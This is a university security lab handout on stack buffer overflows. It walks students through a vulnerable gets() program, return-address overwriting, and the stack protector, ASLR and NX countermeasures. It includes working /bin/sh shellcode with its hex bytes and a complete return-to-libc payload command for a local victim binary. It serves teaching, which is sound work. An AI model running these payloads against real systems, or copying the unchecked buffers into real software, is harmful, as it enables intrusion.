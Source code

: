 #+STARTUP: showall
#+STARTUP: lognotestate
#+TAGS:
#+SEQ_TODO: TODO STARTED DONE DEFERRED CANCELLED | WAITING DELEGATED APPT
#+DRAWERS: HIDDEN STATE
#+TITLE: Lab 8: Stack overflow
#+CATEGORY: todo

* Introduction

This week we are going to learn how programs exploit bad programming. In particular, how well-crafted input can force a program to execute something completely
different than what it was originally intended to do.

* Stack overflow

As you are probably well aware, C gives you total programming power. But with great power, comes great responsibility. One of the biggest problems with C is that
many programmers do not check that the data structures that they allocate in the stack are not overflown.

Compile and test the following simple program. Call it =smashing.c=

#+BEGIN_SRC C
#include <stdio.h>
#include <string.h>

void main()
{
  char buffer[10];
  puts("Type a very long string:");
  gets(buffer);
  if (strlen(buffer) < 50) {
    puts("I said long!!!!. Try again\n");
  } else {
    printf("Input: [%s]\n", buffer);
  }
}
#+END_SRC

Compile it (=gcc -o smashing smashing.c=)

*Q1. What is the warning you receive when you compile it?*

*Q2. What happens when you give it a long input?*


** GCC Stack-Smashing Protector (SSP)

gcc can help us defend against these types of buffer overflows. Newer versions of gcc have this protection enabled by default. Not in our lab machines. Instead
we need to enable it at compile time:

#+BEGIN_EXAMPLE
gcc -fstack-protector -o smashing smashing.c
#+END_EXAMPLE

Run it again.

*Q3 What is the difference now?*

* Subjugating a program: returning where we want

You already knew that it is easy to clobber the stack (I am sure you have done it plenty of times).  Can we do anything interesting by overwriting the stack?
Let us try. Call this program =subjugating.c=. Compile it and run it.

#+BEGIN_SRC C
#include <stdio.h>
#include <stdlib.h>
int i;

void do_not_execute(void)
{
  printf("\nDo not execute!!!!!!!!!!!!!\n");
  exit(1);
}

void function(void) {
  long int *stackTop = 0;
  stackTop = (long int*)&stackTop;
  for (i=0;i<16;i++) {
    printf("stack offset %d from stackTop: %x value %x\n",i, stackTop + i, *(stackTop+i));
  }
  *(stackTop + 4) = (long int)do_not_execute;
  printf("return to %x\n\n", *(stackTop+8));
}

void main() {
  int x;

  x = 0;
  printf("address of do_not_execute %x\n", do_not_execute);
  printf("address of function %x\n", function);
  printf("address of main %x\n", main);
  function();
  x = 1;
  printf("value of %d\n",x);
  printf("hello world\n");
}
#+END_SRC


*Q4. Why does it execute the function do_not_execute?* Hint, you should know what a stack frame is (remember your assembly programming?). If not head here: http://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64/

** Try Stack-Smashing Protector in this program

Enable SSP for this program.

*Q5. Why doesn't SSP work in this program?*

** Address Space Layout Randomization (ASLR)

Run the program several times. As you can see, the addresses of the stack change every time. This is a security counter-measure. This way it is more difficult to know
the addresses that we need to override (that is why I had to print the addresses of the stack to identify where to the return address was). Let us disable by running it as follows:

#+BEGIN_SRC bash
setarch `arch` -R ./subjugating
#+END_SRC

As you can see, now the stack is always exactly in the same place. This is our second counter-measure to stack overflows.

* Smashing to Subjugate

We have learned that we can make a program crash or execute code that is not intended to do. But, can we mix both at the same time? Of course we can.  But this
time we need to be crafty. And fortuantely Ben Lynn (a PhD graduate from Standford whose area of research is crypto) has created a great tutorial that we can
reuse.  Now head to https://crypto.stanford.edu/~blynn/rop/ and do the first part of the exercise (all the way to /The Importance of Being Patched/). I'll
simply add to his tutorial in areas that you will probably have trouble understanding.

But be careful about the following:

1. Change your prompt. This will make it easy to know if you are inside the shell executed by the program or not. In the terminal type
#+BEGIN_SRC BASH
PS1='TEST> '
#+END_SRC
2. when you execute the binary of shell.c type exit to exit it.
3. There is a typo in the command that generates the file =shellcode=.
#+BEGIN_SRC bash
xxd -s0x4bf -l32 -p a.out shellcode
#+END_SRC
it should be (notice the redirection). Make sure you use the right address
#+BEGIN_SRC bash
xxd -s0x4bf -l32 -p a.out > shellcode
#+END_SRC
** system  call

In Linux =system= is a system call of the kernel. It is very simple. It is called using =syscall= with a value of 0x3b in the =rax= register, a pointer to
the command to execute in the =rdi= register; =rsi= points to the list of arguments, and =rdx= to the environment variables. In this case the latter two are
NULL.

** The assembly

This is a very well crafted piece of code. The challenge of the attack is to get the address of the command "/bin/sh" in the =rdi= register. But we have no clue
where this code is going to end, so the easiest is to get the address of the string into the stack and then pop it into the register. How do we do it? if we
call a function the stack automatically loads  the address immediately after the function. Let me do a play-by-play:

1. We jump to "there"
2. We call here (return to the top), this pushes the address of "/bin/sh" into the stack.
3. Now we pop the address of "/bin/sh" into =rdi=, clear =rax= and =rsi=, and do the syscall.
4. We do the syscall, which executes the command "/bin/sh" (the shell)

#+BEGIN_SRC C
int main() {
  asm("\
needle0: jmp there\n\
here:    pop %rdi\n\
         xor %rax, %rax\n\
         movb $0x3b, %al\n\
         xor %rsi, %rsi\n\
         xor %rdx, %rdx\n\
         syscall\n\
there:   call here\n\
.string \"/bin/sh\"\n\
needle1: .octa 0xdeadbeef\n\
  ");
}
#+END_SRC

** Extracting the binary

The command extracts the given bytes from your binary. Make sure you use the correct offset (in my case it was 0x495). It outputs the values in hexadecimal so
we can easily read it.

#+BEGIN_SRC BASH
xxd -s0x495 -l32 -p a.out > shellcode
#+END_SRC

Make sure your =shellcode= matches:

#+BEGIN_SRC BASH
cat shellcode
eb0e5f4831c0b03b4831f64831d20f05e8edffffff2f62696e2f736800ef
bead
#+END_SRC


* Executable space protection (NX)

As you learned in the tutorial above, code in the stack cannot be executed. This is a great countermeasure against stack overflows. Go back to the tutorial and do the section /Executable space perversion/

*Q6. What is the behaviour of the program when you enable NX?*

* If you have time...

Do the section /The Importance of Being Patched/. It will show you that it is possible to know the address of the stack we need to attack by using =ps=

* If your have more time... or want to keep playing...

The rest of the tutorial is fascinating, to say the least.

But we need to fix the tutorial so it works on our version of linux:

1. First, in order to get his attack to work in our lab computers you need to change the source
   code of =victim.c=. You need to change the size of the buffer from 64 to 128 bytes.
2. The location of the library is =/lib64/libc.so.6=
3. The addresses of =<system>= and =<exit>= that are extracted  using =nm= are absolute (it means we don't need to add the base)
#+BEGIN_SRC bash
nm -D /lib64/libc.so.6 | grep '\<exit\>'   | cut -f1 -d' '
nm -D /lib64/libc.so.6 | grep '\<system\>' | cut -f1 -d' '
#+END_SRC
4. You need to change the payload string to the =%0130d= to =%0256d= to compensate for the bytes we have added.

My values are:

| base             | 0x000000392ba00000 |
| gadget           |            0x20338 |
| system           | 0x000000392ba3e900 |
| exit             | 0x000000392ba35a50 |
| address of array |     0x7fffffffddd0 |

5. There is an error in his execution of the attack. He does not include any input to the command. Try the command below instead (remember to calculate your own
   values for base, gadget, system, and address of array).

#+BEGIN_SRC bash
( (
echo -n /bin/sh | xxd -p
printf %0258d 0;
printf %016x $((0x000000392ba00000+0x20338)) | tac -rs..
printf %016x 0x7fffffffddd0 | tac -rs..
printf %016x 0x000000392ba3e900 | tac -rs..
echo
) |  xxd -r -p; echo ; echo ls -lia ) | setarch `arch` -R ./victim
#+END_SRC

In a nutshell, this is the attack:

The goal is to replace the stack with the following data:

|----------------------------+--------------------------------------------------|
| address of function system |                                                  |
| address of /bin/sh         |                                                  |
| address of gadget          | this was the return address of the original call |
|                            |                                                  |
|----------------------------+--------------------------------------------------|

Let me explain the /gadget/. This is the code that is needed to execute (=pop rdi= then =retq=). These two instructions are simply two bytes 0x5f followed by
0xc3. Ben (the author of the page) shows us that all we need is to find those two bytes /somewhere/ (anywhere) in the executable section of the library of libc.

So here is the play by play:

1. Insert the payload into the stack, replace the return address of the function with the address of the gadget
2. Execute the gadget. The gadget pops the top of the stack (containing the address of /bin/sh into the register =rdi=
3. Executes the return =retq=. The return  address is the address of the =system= function. Control is transferred to it.
4. =system= behaves as expected. Executes =/bin/sh= (the shell)
5. At the end of =system= control is transferred to its return address (at the top of the stack,
6. The return value is invalid, so the program crashes with a segmentation fault. It is easy to fix it. Just add to the attack the address of =exit= and append
   that to the string that goes into the stack. I'll leave that as an exercise to the reader.

Happy coding

--dmg
